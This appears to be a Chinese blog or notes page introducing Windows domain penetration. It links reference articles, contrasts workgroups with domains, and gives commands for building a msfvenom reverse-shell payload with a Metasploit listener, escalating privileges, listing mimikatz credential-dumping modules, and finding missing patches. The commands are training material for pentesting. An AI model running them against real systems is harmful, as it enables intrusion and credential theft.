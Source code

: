 ```yaml
---
title: 域渗透入门
categories:
- WindowDomain
tags:
- WindowDomain
---
```

## 参考资料
- 乌云文章：《域内渗透基本技巧》
- [Kerberos概述及常见攻击场景](https://www.anquanke.com/post/id/200680)
- [Mimikatz 使用小技巧](https://www.secpulse.com/archives/52379.html)
## 录制的视频教程
首先搭一个域环境

- [域渗透原理篇](https://www.bilibili.com/video/BV1Cf4y1U73y/)
- [域渗透实践篇（一）](https://www.acfun.cn/v/ac14954038)

## 工作组和域的区别
1. 大小
工作组比较小，不超过20台。域用在比较大的网络，成百上千台。
2. 拓扑图
工作组中，所有机器的地位是平等的，一台计算机可以自由的加入或退出一个工作组。
3. 验证方式
在工作组中，用户名、密码存放在本地计算机。如果要登入其他计算机，必须提供用户名，密码；在域中，有一台域控（DC）服务器，其他计算机都要通过DC验证才能加入域。有域权限，可以登入任何域内计算机，无需知道计算机的账号也可以登入。
4. 网络
工作组计算机必须在同一个子网中；域的计算机可以在不同的本地网络中。

## 获得一个shell
```
生成恶意载荷
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.4 LPORT=6678 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
---
设置监听器
handler -H 192.168.1.4 -P 6678 -p windows/meterpreter/reverse_tcp
---
反弹shell成功后，进行提权
sysinfo 		#查看windows是32位/64位
migrate         #如果是64位置，需要migrate到64位进程
search suggester
use 0
set session 1
run             #查找可以利用的exp
use exploit/windows/local/always_install_elevated  #使用提权exp
set session 1
```
## meterpreter mimikatz模块
```
      crypto	- Cryptographie et certificats
        hash	- Hash
      system	- Gestion syst�me
     process	- Manipulation des processus
      thread	- Manipulation des threads
     service	- Manipulation des services
   privilege	- Manipulation des privil�ges
      handle	- Manipulation des handles
 impersonate	- Manipulation tokens d'acc�s
     winmine	- Manipulation du d�mineur
 minesweeper	- Manipulation du d�mineur 7
       nogpo	- Anti-gpo et patchs divers
     samdump	- Dump de SAM   #导出sam密码
      inject	- Injecteur de librairies
          ts	- Terminal Server
      divers	- Fonctions diverses n'ayant pas encore assez de corps pour avoir leurs propres module
    sekurlsa	- Dump des sessions courantes par providers LSASS
         efs	- Manipulations EFS
```

## 信息搜集-补丁查找
```
shell
cd C:\Windows\Temp
systeminfo > info.txt

---
pip install xlrd 
pip install xlrd -upgrade
python .\windows-exploit-suggester.py --update
python .\windows-exploit-suggester.py -d  2020-04-16-mssb.xls -i info.txt
```
